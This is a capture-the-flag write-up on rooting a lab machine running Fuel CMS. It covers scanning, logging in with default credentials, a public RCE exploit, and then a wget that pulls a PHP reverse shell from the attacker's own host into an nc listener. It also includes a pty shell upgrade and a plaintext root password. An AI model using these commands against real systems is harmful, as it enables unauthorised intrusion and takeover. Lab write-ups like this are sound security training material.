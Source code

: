 # Task 1 - Root It

## Enumeration

sudo nmap -sV -sC -T5 -p- 10.10.225.183 -oN \~/Github/IgniteCTF/nmapscan.md

gobuster dir -u http://10.10.225.183 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -q

For starters I ran an nmap scan as well as a gobuster scan.

The gobuster scan came up with /home, /assets, and a couple of other interesting directories. The /assets directory came back with a 301 code so we know we don't have permissions for it.

In the nmap scan we see that robots.txt has 1 disallowed entry so we can go to /robots.txt to see what that is.

![robots.txt](robots.png)

we can see there is a /fuel/ directory, so lets go there.

## Exploitation

we see there is a login page, I did some googling to find the default password for Fuel CMS and found that it was admin/admin which did allow us to login

![fuel](fuel.png)

So once I logged in looking around the web page there is a tab called "Assets" that allows us to upload a malicious file.

We tried uploading our php reverse shell and got the following message.

![Error](error.png)

Let's try changing the file extension to .php5 to see if we can get around a possible blacklisting.

That did not work I tried renaming the file extension as well as adding 2 file extensions .jpg.php5 to see if that would get around a blacklisting

Uploading files did not seem to get me anywhere so I went to searchsploit and looked for any exploits for fuel cms.

![searchsploit](searchsploit.png)

We can try the first RCE, after editing the IP to match that of the Fuel machine we were able to run the file and get a cmd: prompt 

![cmd](cmd.png)

When we run whoami we do get the www-data that we expected. Now in order to get a more permanent shell on our local machine we need to be able to upload a reverse shell to the machine.

So I started a python web server on port 8000 on my machine: python -m http.server 8000

then I started my nc listener for when the reverse shell was executed

now on the cmd: we can run wget 10.13.16.145:8000/php-reverse-shell.php

One our web server terminal we can see the GET requests for the file come through.

![GET](get.png)

and when we go to the machine's IP and our file name the listener we had set up is then populated with a shell.

![Shell](begin.png)

we can run python -c 'import pty;pty.spawn("/bin/bash")' to solidify our shell

now we can navigate to the /home directory and the user www-data where we see flag.txt: 6470e394cbf6dab6a91682cc8585059b

![flag](flag.png)


From here I was a little stumped. I tried running sudo -l and sudo -V to get some more information about possible attack vectors but both needed www-data's password which we don't have

After doing some research I found that if we go to the first Fuel page we found before finding the login page there is critical information about files that are available to us.

![attackvector](attack.png)

I went to look inside the fuel/install/fuel_schema.sql file but that didn't have any more information so I went to the fuel_schema.sql file

![password](password.png)

Here we can see a username and password

root:mememe

Now we can run sudo as root and use the password mememe and we are root

![root](root.png)

Now we can go to /root directory and find root.txt which is b9bbcb33e11b80be759c4e844862482d

For this machine we were able to exploit a RCE for Fuel CMS then uploading a reverse shell file that allowed us to get the user shell. From there we had to go back to the first page that we were introduced to in the very beginning that included information about a file that had the root password in plain text.